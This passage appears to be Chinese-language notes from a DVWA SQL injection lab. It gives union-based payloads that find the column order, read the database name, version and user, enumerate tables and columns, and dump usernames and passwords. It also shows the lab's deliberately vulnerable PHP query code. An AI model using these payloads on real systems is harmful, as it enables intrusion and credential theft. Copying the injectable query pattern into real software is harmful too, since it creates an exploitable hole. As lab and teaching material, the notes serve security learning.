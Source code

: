 **3.确定显示位置/字段顺序**

1' union select 1,2 #

First name处显示结果位查询结果的第一列的值，surname处显示结果位查询结果第二列的值。

**4.获取当前数据库及数据库版本、构造联合查询语句查询当前数据库用户和数据库名**
1' union select database(),version() #

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220606203259443.png" alt="image-20220606203259443" style="zoom:80%;" />

' union select user(),database()#

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220606203433321.png" alt="image-20220606203433321" style="zoom:80%;" />

**5.获取数据库中的表**
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220606220541227.png" alt="image-20220606220541227" style="zoom:80%;" />

**6.获取表中的字段名**
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220606220508909.png" alt="image-20220606220508909" style="zoom:80%;" />

**7.查询用户名和密码**
1' union select group_concat(user),group_concat(password) from users #

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220606210604232.png" alt="image-20220606210604232" style="zoom:80%;" />

1' union select user,password from users#

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220606220826739.png" alt="image-20220606220826739" style="zoom:80%;" />

## low

```php+HTML
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
	// Get input
	$id = $_REQUEST[ 'id' ];

	switch ($_DVWA['SQLI_DB']) {
		case MYSQL:
			// Check database
			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

			// Get results
			while( $row = mysqli_fetch_assoc( $result ) ) {
				// Get values
				$first = $row["first_name"];
				$last  = $row["last_name"];

				// Feedback for end user
				$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
			}

			mysqli_close($GLOBALS["___mysqli_ston"]);
			break;
		case SQLITE:
```